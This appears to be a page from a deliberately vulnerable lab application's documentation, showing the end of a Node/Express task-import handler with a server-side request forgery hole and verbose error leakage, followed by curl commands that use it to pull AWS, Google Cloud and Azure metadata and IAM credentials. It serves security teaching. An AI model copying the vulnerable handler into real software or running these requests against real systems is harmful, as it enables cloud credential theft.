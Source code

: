 ```javascript
    
    if (importUrl.includes('localhost') || importUrl.includes('127.0.0.1')) {
      // Internal service scanning
      return res.json({
        success: true,
        internalService: response.data,
        headers: response.headers,
        status: response.status
      });
    }
    
    res.json({ success: true, data: response.data });
    
  } catch (error) {
    // VULNERABILITY: Network error information disclosure
    res.status(500).json({
      error: 'Import failed',
      targetUrl: importUrl,
      networkError: error.message,
      errorCode: error.code,
      responseStatus: error.response?.status,
      responseHeaders: error.response?.headers
    });
  }
});
```

## Exploitation Techniques

### 1. Cloud Metadata Service Exploitation

**Objective**: Access cloud provider metadata services to retrieve credentials and configuration

```bash
# AWS EC2 Metadata Service
curl -X POST http://localhost:3000/api/tasks/import \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"importUrl":"http://169.254.169.254/latest/meta-data/","format":"json"}'

# AWS IAM Credentials
curl -X POST http://localhost:3000/api/tasks/import \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"importUrl":"http://169.254.169.254/latest/meta-data/iam/security-credentials/","format":"json"}'

# Google Cloud Metadata
curl -X POST http://localhost:3000/api/tasks/import \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"importUrl":"http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token","format":"json"}'

# Azure Metadata Service
curl -X POST http://localhost:3000/api/tasks/import \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"importUrl":"http://169.254.169.254/metadata/instance?api-version=2021-02-01","format":"json"}'
```
